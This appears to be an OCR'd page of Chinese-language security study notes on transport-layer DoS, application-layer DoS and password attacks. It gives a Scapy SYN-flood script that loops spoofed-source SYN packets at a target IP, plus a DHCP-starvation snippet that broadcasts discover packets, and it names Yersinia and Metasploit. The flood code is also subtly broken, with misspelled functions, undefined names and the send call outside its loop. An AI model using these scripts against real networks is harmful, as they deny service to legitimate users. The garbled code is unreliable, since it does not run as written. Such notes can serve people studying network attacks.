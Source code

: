 #### 传输层DOS

```python
TCP的DOS，出发点即是三次握手机制
和目标端口完成三次握手
只和目标端口完成前两次握手(SYN拒绝服务攻击)
```

```python
import sys,random
from scapy.all import senp,IP,TCP
if len(sys.argv) < 2:
    print "SynFlood.py + target IP"
    sys.exit(0)
while 1:
    psrc="%i.%i.%i.%i" % (random.randint(1,254),random.randint(1,254),random.randint(1,254),random.randint(1,254))
    pdst=argv[1]
sendp(IP(src=psrc,dst=pdst) / TCp(dport=80,flag="S"))
```

#### 应用层DOS

```python
DHCP：集中地管理、分配IP地址，使网络环境中的主机动态获取IP地址，Gateway地址、DNS服务器地址等信息，并提高地址的使用率

客户端广播DHCP Discover信息
服务器提供地址租约Offer
客户端选择并请求Request
服务器确认ACK

伪造大量DHVP请求报文到服务器使得DHCP服务器地址池中的IP地址被分配完毕，导致合法用户无法申请到IP地址
同时大量的DHCP请求也会导致服务器高负荷运行，导致设备瘫痪
```

```python
from scapy.all import srp,IP,UDP,Ether,DHCP,BOOTP
dhcp_discover = Ether(dst="ff:ff:ff:ff:ff:ff") / IP(src="0.0.0.0",dst="255.255.255.255") / UDP(sport=68,dport=67) / BOOTP() / DHCP(options=[("message-type","discover"),"end"])
srp(dhcp_discover)
```

```python
Yersinia
Metasploit
```

# 身份认证攻击

#### 字典

```python
纯字典攻击：单纯依靠字典，利用工具将用户名和字典中的密码组合，一个一个试
混合攻击：此时需要破解的密码具有一定的强壮度，混合攻击依靠一定的算法对字典中的内容进行处理后再使用
完全暴力攻击：实际上，不需要字典，只利用工具将密码穷举出来
```
